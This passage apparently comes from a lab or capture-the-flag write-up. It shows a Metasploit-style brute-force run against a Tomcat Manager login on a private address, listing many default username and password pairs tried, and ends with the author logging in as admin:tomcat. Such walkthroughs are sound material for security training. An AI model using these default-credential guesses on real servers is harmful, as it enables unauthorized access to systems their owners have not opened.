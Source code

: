 ```
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: tomcat:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Got the valid credential for tomcat (**admin:tomcat**). I login the Tomcat Manager site with the credential and I'm inside!
